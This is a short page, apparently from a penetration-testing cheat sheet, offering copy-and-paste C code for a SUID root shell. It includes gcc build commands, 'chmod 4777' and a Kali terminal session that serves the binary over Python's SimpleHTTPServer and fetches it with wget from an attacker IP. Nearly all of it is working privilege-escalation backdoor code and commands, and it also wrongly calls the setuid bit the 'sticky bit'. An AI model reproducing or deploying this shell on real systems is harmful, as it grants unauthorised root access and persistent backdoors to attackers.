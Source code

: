 ### SUID (Set owner User ID up on execution)

below are some quick copy and paste examples for various shells:


```
SUID C Shell for /bin/bash  

int main(void){  
setresuid(0, 0, 0);  
system("/bin/bash");  
}  

SUID C Shell for /bin/sh  

int main(void){  
setresuid(0, 0, 0);  
system("/bin/sh");  
}  

Building the SUID Shell binary  
gcc -o suid suid.c  
For 32 bit:  
gcc -m32 -o suid suid.c
chmod 4777 suid

```
create an SUID binary which is owned by root and which has its sticky bit set and has r/w/x permissions for all users.

```
int main(void){
    setresuid(0, 0, 0);
    system("/bin/bash");
}
```
```

root@kali:~/Desktop/B2R# gcc suid.c -o suid
suid.c: In function ‘main’:
suid.c:2:5: warning: implicit declaration of function ‘setresuid’ [-Wimplicit-function-declaration]
     setresuid(0, 0, 0);
     ^~~~~~~~~
suid.c:3:5: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
     system("/bin/bash");
     ^~~~~~
root@kali:~/Desktop/B2R# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...

wget http://192.168.1.13:8000/suid
```



